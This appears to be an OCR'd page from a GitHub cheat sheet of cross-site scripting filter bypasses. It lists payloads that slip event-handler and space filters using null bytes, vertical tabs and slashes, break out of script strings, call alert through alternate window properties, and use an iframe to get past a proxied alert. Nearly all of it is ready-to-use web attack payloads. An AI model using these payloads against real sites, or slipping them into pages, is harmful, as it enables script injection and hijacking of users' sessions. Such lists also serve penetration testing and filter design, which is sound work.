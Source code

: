 Bypass onxxx= filter with a null byte/vertical tab - IE/Safari
```
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />
```

Bypass onxxx= filter with a '/' - IE/Firefox/Chrome/Safari
```
<img src='1' onerror/=alert(0) />
```

Bypass space filter with "/" - IE/Firefox/Chrome/Safari
```
<img/src='1'/onerror=alert(0)>
```

Bypass with incomplete html tag - IE/Firefox/Chrome/Safari
```
<img src='1' onerror='alert(0)' <
```

Bypass document blacklist
```
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
```

Bypass using javascript inside a string
```
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

Bypass using an alternate way to execute an alert
```
<script>window['alert'](0)</script>
<script>parent['alert'](1)</script>
<script>self['alert'](2)</script>
<script>top['alert'](3)</script>
<script>this['alert'](4)</script>
<script>frames['alert'](5)</script>
<script>content['alert'](6)</script>

```

Bypass using an alternate way to trigger an alert
```
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
         if (exec_original) {
            return proxy.apply(this, arguments);
         }
      };
      XSSObject.lockdown(obj, name);
   };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```
